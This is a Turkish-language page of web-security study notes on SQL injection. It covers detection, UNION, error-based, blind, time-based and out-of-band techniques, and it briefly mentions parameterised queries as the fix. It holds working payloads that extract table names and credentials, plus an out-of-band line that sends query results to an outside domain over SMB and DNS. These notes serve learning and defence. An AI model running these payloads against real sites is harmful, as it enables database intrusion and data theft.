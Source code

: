 <h1 align="center">SQL Injection</h1>

# SQL Injection Nedir?
* Saldırganın, web yazılımını kullanarak veritabanı sorgusu çalıştırmabilmesidir.

### SQL Injection Nasıl Tespit Edilir?

* SQL INJECTION TIME BASED PAYLOADLAR ILE TESPIT EDILIR !!!! 
* Her db için ayrı sleep metodları vardır. 
* Data insert ederken bile sleep methodunu çalıştırabilirsin. 
* SQL Injection bulurken kendine bir referans noktası seçersin ve denediğin yöntemlerle bu ilk noktaya dönmeye çalışırsın. Başarırsan zaafiyeti kanıtlamışsın demektir.
* SQLi tespit etmek için URL kısmında şunları dene: 
```python
..../productid=4'
	herhangi bir hata falan verirse
..../productid=4''
	böylesini dene, eğer referans noktana dönüyorsan SQLi var demektir.
..../productid=5-1
	bunu da deneyebilirsin
```

## Notlar

- SQL injectionda gönderdiğin data, arka tarafta SQL sorgusu olarak gidiyor. Data, data olarak kalırsa sorun çözülmüş olur.

- ORM uygulama denir buna. Prepare statement deniyor buna. İnputları parametrelendirmek yani.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/223883df-681b-4e37-9026-2c1e34fe39b3)

```SQL
database() --> mevcut database ismini döndürür

SELECT 2+1;
3

SELECT '2-1';
2-1

SELECT '2'-'1';     --> integer casting yapıyor
1                 

SELECT '2'+'a';    --> 2yi integer cast edebiliyor ama 'a'yı cast edemiyor.
2                 

SELECT 'b'+'a';
0

SELECT '2' '1'; veya SELECT concat('2','1');  --> boşluğu string concatenation yapıyor.
21        

SELECT SELECT '2' '1' 'a';
21a

SELECT SELECT '2' '1' 'a' - 1;   -->  önce çıkartmayı yapıp sonra string birleştirme yapıyor.
20a                 

SELECT 2^1;    -->     XOR operantı bu  2^2 = 0
3

SELECT ~1;    -->      max integer input
18446744073709551614

DROP DATABASE;
```

- Database tablolarına veri eklerken trim(boşlukları silme) işlemi yapmazken, veriyi çekerken trim yapıyor.

- SQL Injection kod örnekleri:
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/7325c682-bc1c-40be-821f-fbf499c0b7cf)
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/8ef456c1-9521-4dd8-ad54-9849f2212e4b)

## UNION SQLi

.../id=2-1
- Peşpeşe SELECT sorgusu çalıştırmak için UNION kullan ama UNION kullanabilmen için 2. SELECT’deki kolon sayısı aynı olması gerekiyor. 
- UNION SELECT 1,2,3,4,5,6,7,8,9,10,11… böyle gidersin.
- Eğer ekranda 7 2 9 gibi değerler görüyorsan bu kodda 2. indisteki kodu uygulama, ekrana yaz demektir bu. Arama çubuğuna gidip 7 yerine version() fonksiyonunu çalıştırdığında veri çekebilir hale gelebilirsin.
- İlk SELECT sorgusunun cevabını görmemek için -99999999 yazabilirsin id UNION’dan önce.
- Sonra versiyon yerine database() yazarsan database ismini getirir.

```SQL
' UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()  
	  bu şekilde tablo isimlerini çektik

' UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.column WHERE table_name = ‘users’  
	  users’ın kolonlarını çekme

' UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users  
	  uname yerine kolon isimlerinde ne çıkarsa artık
```
* bu kısımda fonksiyon kullanmak da verimli olabilir || 6,concat(uname,’:MDISEC:’,pass),8,9,..  || veya regex yazıp çözebilirsin.

## Error Based SQLi

- SQL sorgusunun database’de oluşturduğu syntax’ın geri dönmesi sonucu, o syntax hatası içine çıkartmak istediğni veriyi yerleştirmeyle oluşuyor.
- Eğer ki verdirttiğin hata tee database’e kadar gidiyorsa sen bu yardımcı metodu kullanarak data getirebilirsin. XML şeklinde veriyorsun
- Syntax hatası olmadan bu tür olmaz.
```SQL
rand() —> 0-1 arası random sayı üretir.

SELECT extractvalue(rand(), concat(1,"Ali"));
		burada sonuç olarak hata dönüyor ama içinde "Ali" de geçiyor. Sorgunun içindeki string değeri hatanının içinde döndürtmeyi başardın demek.
		böylece subquery kullanabilirsin demek oluyor.
SELECT extractvalue(rand(), concat(1,(SELECT 'mehmet')));  eğer yine hatada mehmet dönerse istediğin sorguyu atabilirsin.
SELECT extractvalue(rand(), concat(1,(SELECT database())));
```

## AND/OR SQLi
```SQL
	www.x.com/?id=1' and '2'=1
yaptığında sayfanın davranışına göre kod analizi yapabilirsin.
	www.x.com/?id=1' and 1=1 #  bu da iş yapar
WAF kafana geçiriyorsa
	www.x.com/?id=2^1 
koy site değişiyorsa SQLi vardır demektir.
```

## WHERE id IN (1)
```SQL
www.x.com/?id=1) UNION SELECT #
```

## Tırnaklama
```SQL
SELECT * FROM users WHERE id = '1'''; 
	olduğunda tırnak, tırnağı escape edeceği için sana yine cevabı çevirmiş olur. 3 tane tırnak olsa hata verir.
```

## Boolean-Based / Blind SQLi
- Örnek python kodu:
```python
if result().size > 0:
	print("haber var")
else:
	print("haber yok")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=1
SELECT * FROM haberler WHERE id = 1 and (SELECT 1)=2  2 
	yaparak referans noktanın değiştiğini gözlemle.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING('MEHMET',1,1)='M'  
	Substring fonksiyonu string ifadeyi indexten indexe kesecek işlemi yapar.
SELECT * FROM haberler WHERE id = 1 and SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1)='a'
	ilk tablo ismini stringi bölerek 'a' eşitlemeye çalışır. 'u' yu bulana kadar alfabetik değiştir. 2 tane for döngüsüyle bütün harfleri bulursun.
Bu işlemi hızlandırmak için:
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1), 1, 1))> 80
SELECT * FROM haberler WHERE id = 1 and ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), 1, 1))> 80
```
## Time Based SQLi
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,1,0)  condition doğruysa 1 dön değilse 0 dön.
SELECT * FROM haberler WHERE id = 1 and 1=IF (1=1,sleep(5),0)      eğer cevap dönmesi uzun sürerse açığı yakaladın demektir.
	Sonrasında SUBSTRING ve ASCII'den yürü.
```
## Out-of-Band SQLi
- Örnek python kodu:
```python
id = request.get('id')

rabbitmq.pushTask('report_generate',id)
	Senden gelen integer değerleri SQL sorgusu içine yolluyor yani içeride başka işler dönüyor. sleep falan yaramaz aga.
print("selam")
```
> Bu şekilde injection yapılabiliyor:
```SQL
SELECT 'ali' INTO OUTFILE '/tmp/test.txt'; komutu diske bir şeyler yazmana yarar. Bunu kullanarak bir şeyler elde edebilirsin.
SELECT 'ali' INTO OUTFILE '\\\hacker.mdisec.com/a'; windows un özelliğidir bu samba protoklü ile verilen domainin 445.portuna gitmeye çalışır.
	Bunun subdomainine subSELECT kurarsan rahatça table_name falan elde edersin.
SELECT * INTO OUTFILE '\\\'+(SELECT table_name FROM information_schema.tables WHERE table_schema=database())+.mdisec.com/a'
	DB'in bağlı olduğu DNS serveri üstünden senin name serverına istek atar ve dataları orada görürsün.
```
